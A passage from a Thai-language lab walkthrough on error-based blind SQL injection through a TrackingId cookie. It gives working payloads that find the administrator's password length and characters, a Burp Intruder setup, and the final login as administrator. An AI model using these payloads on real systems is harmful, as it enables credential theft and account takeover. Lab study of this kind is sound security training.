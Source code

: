 **เริ่มจากทดสอบว่า password ยาวกว่า 1 ตัวอักษรหรือไม่:**
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**ทดสอบต่อไปเรื่อยๆ:**
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

*ทำไปเรื่อยๆ จนกว่าจะไม่เกิด error แล้วจะรู้ความยาวของ password (ในกรณีนี้คือ 20 ตัวอักษร)*

## ขั้นตอนที่ 7: ใช้ Burp Intruder หา Password

**ส่ง request ไปที่ Burp Intruder และเปลี่ยน cookie เป็น:**
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**ใส่ payload position markers รอบตัวอักษร 'a':**
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### การตั้งค่า Burp Intruder:
- เลือก payload type เป็น "Simple list" 
- เพิ่ม payload a-z และ 0-9
- กดปุ่ม "Start attack"

### การอ่านผลลัพธ์:
- **HTTP 500** = เกิด error = ตัวอักษรถูกต้อง
- **HTTP 200** = ไม่เกิด error = ตัวอักษรผิด

## ขั้นตอนที่ 8: หาตัวอักษรที่เหลือ

**เปลี่ยน offset จาก 1 เป็น 2 เพื่อหาตัวอักษรตัวที่ 2:**
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

*ทำซ้ำกระบวนการนี้สำหรับ offset 3, 4, 5... จนครบทั้ง 20 ตัวอักษร*

## ขั้นตอนสุดท้าย: เข้าสู่ระบบ

**เมื่อได้ password ครบแล้ว:**
1. คลิกที่ "My account" 
2. ใส่ username: `administrator`
3. ใส่ password ที่หาได้
4. เข้าสู่ระบบสำเร็จ!

---